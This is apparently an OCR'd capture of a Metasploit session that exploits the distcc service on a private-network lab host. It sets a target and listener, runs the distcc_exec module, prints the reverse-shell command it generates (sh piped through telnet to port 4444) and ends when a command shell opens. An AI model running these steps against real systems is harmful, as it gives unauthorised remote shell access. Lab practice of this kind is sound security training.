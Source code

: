 `msf
msf6 exploit(unix/misc/distcc_exec) > options

Module options (exploit/unix/misc/distcc_exec):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   3632             yes       The target port (TCP)


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(unix/misc/distcc_exec) > 
`

`msf
msf6 exploit(unix/misc/distcc_exec) > set rhost 192.168.123.133
rhost => 192.168.123.133
msf6 exploit(unix/misc/distcc_exec) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(unix/misc/distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
`

`msf
msf6 exploit(unix/misc/distcc_exec) > run

[+] sh -c '(sleep 4375|telnet 192.168.123.1 4444|while : ; do sh && break; done 2>&1|telnet 192.168.123.1 4444 >/dev/null 2>&1 &)'
[*] Started reverse TCP double handler on 192.168.123.1:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo BmpMGFX6NDVlh5h0;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "BmpMGFX6NDVlh5h0\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.133:48578) at 2023-09-21 14:42:42 +0100
